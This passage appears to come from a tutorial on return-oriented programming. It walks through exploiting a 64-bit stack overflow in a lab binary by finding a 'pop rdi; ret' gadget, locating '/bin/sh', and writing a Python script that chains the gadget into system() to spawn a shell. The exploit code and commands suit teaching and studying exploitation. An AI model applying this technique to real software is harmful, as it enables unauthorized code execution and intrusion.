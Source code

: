 What we need is a gadget that will load a
value from the stack (because we can control the stack) into the correct
argument register (`rdi`).  Finding these gadgets is an art and often involves
some manual checking. For instance, we can use objdump to look at all of the
instructions until we find a useful gadget.  Fortunately, there are programs
that make searching for gadgets easier. 

```
ROPgadget --binary vuln64 | grep "pop rdi"
``` 

Looks like there are a bunch of gadgets in the program, including one that will
do exactly what we need: pop a value off of the stack and into the argument
register. Note: the first column is the location of the gadget, use x/i in gdb to
to verify

```
0x00000000004005b3 : pop rdi ; ret
```

Now that we have the address of a useful gadget, we need to find our command
string "/bin/sh". We could do it the way we did previously (using strings and
grep on the .SO file), but let's do it directly in GDB this time: `find
&system,+9999999,"/bin/sh"`. Note, the program needs to be running for this
command to work.


Putting everything together, we have an attack that looks very similar to how
we exploited the 32-bit binary. The big different is that added the additional
step to call our gadget and load the address of "/bin/sh" into `rdi`. 

```python
#file: rop.py
#output: r64.in
import struct
import sys

gadget_addr = 0x00000000004005b3
buff_addr = 0x7fffffffd560
ret_addr = 0x7fffffffd5a8
command_addr = 0x7ffff7b99d57
system_addr = 0x7ffff7a52390

padding_len = ret_addr - buff_addr

sys.stdout.write('a'*padding_len+struct.pack("<Q", gadget_addr) + struct.pack("<Q", command_addr)+ struct.pack("<Q", system_addr))

```

We got lucky in this case because we only needed to use a single gadget to set
up our register. In many cases, we may have to string together multiple gadgets
into a single **ROP chain** to acheive the desired results---for example, if we
need to setup two argument registers.


